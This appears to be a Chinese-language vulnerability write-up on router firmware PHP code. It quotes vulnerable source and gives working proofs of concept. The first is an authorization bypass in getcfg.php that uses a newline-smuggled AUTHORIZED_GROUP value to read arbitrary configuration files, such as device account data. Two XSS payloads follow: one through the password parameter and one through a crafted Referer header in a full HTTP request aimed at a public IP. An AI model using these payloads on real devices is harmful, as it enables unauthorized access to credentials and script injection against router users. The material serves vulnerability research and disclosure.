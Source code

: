 ###  任意文件读取getcfg

getcfg.php

``` 
if(is_power_user() == 1)
	{
		/* cut_count() will return 0 when no or only one token. */
		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
		$SERVICE_INDEX = 0;
		while ($SERVICE_INDEX < $SERVICE_COUNT)
		{
			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
			if ($GETCFG_SVC!="")
			{
				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
				/* GETCFG_SVC will be passed to the child process. */
				if (isfile($file)=="1") dophp("load", $file);
			}
			$SERVICE_INDEX++;
		}
	}
```

POC

``` 
SERVICES=DEVICE.ACCOUNT&aaa=%0aAUTHORIZED_GROUP=1
```



![image-20191031111027019](.\image-20191031111027019.png)

可以读任意.xml.php文件

### 2.XSS

#### （1）文件位置parentalcontrols/register.php

```
			var Response = "<? echo $Response; ?>";
			function Body() {}
			Body.prototype =
			{
				OnLoad: function()
				{
					if(Response == "Unauthorized")
					{
						document.getElementById("authorize").style.display = "block";
					}
					else if(Response == "InternetUnreachable")
					{
						document.getElementById("InternetUnreach").style.display = "block";
					}
					else if(Response == "Devicebinded")
					{
						document.getElementById("device_binded").style.display = "block";
					}									
				},
				LoginSubmit: function(password_type, overwrite_deviceid)
				{
					if(password_type === "new") var pwd = document.getElementById("loginpwd").value;
					else var pwd = "<? echo $_GET["password"];?>";
					self.location.href = "/parentalcontrols/register.php?username=" + "<? echo $ADMIN_name;?>" + "&password=" + pwd + "&overriteDeviceID=" + overwrite_deviceid;
				},
				window_close: function()
				{
					window.opener=null;   
					window.open("","_self");   
					window.close();
				}						
			};
			var BODY = new Body();	
```

* else var pwd = "<? echo $_GET["password"];?>"; 构造即可直接触发

![image-20191031111539987](.\image-20191031111539987.png)



#### 2.文件位置/htdocs/webinc/js/tools_fw_rlt.php

代码

```php
		$referer = $_SERVER["HTTP_REFERER"];
		......
		$title = i18n("Language Pack Upload Fail");
		$message = "'".i18n("The language pack image is invalid.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
```

$referer赋值点比较多，所以触发点也比较多。

POC

``` 
POST /tools_fw_rlt.php?PELOTA_ACTION=fwupdate HTTP/1.1
Host: 116.50.243.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Referer: </script><script>alert(11111)</script><script>
Cookie: uid=ScrWKA5Tlb
Connection: close
Upgrade-Insecure-Requests: 1

ACTION=langclear
```

![image-20191031205417181](.\image-20191031205417181.png)
